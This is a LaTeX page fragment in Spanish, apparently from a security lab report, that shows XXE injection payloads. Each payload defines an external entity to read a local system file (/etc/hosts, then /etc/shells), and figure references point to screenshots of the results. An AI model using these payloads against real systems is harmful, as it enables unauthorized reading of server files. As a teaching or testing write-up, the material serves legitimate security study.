 \documentclass[12pt,oneside,a4paper]{book}
\begin{document}
\begin{enumerate}
\begin{enumerate}
        \textbf{Fichero /etc/hosts}

        \vspace{1em}

        \begin{verbatim}
<?xml version="1.0"?>
    <!DOCTYPE replace [<!ENTITY xxe_attack SYSTEM "file:///etc/hosts"> ]>
        <comment>
            <text>
                &xxe_attack;
            </text>
        </comment>
        \end{verbatim}

        \newpage

        \begin{center}
            \includegraphics[width=12cm]{img/xxe12.png}
            
            \vspace{0.1em}
            
            Fig. 38: Fichero /etc/hosts
        \end{center}

        \vspace{2em}

        \textbf{Fichero /etc/shells}

        \vspace{1em}

        \begin{verbatim}
<?xml version="1.0"?>
    <!DOCTYPE replace [<!ENTITY xxe_attack SYSTEM "file:///etc/shells"> ]>
        <comment>
            <text>
                &xxe_attack;
            </text>
        </comment>
        \end{verbatim}

        \vspace{2em}

        \begin{center}
            \includegraphics[width=12cm]{img/xxe13.png}
            

\end{center}
\end{enumerate}
\end{enumerate}
\end{document}
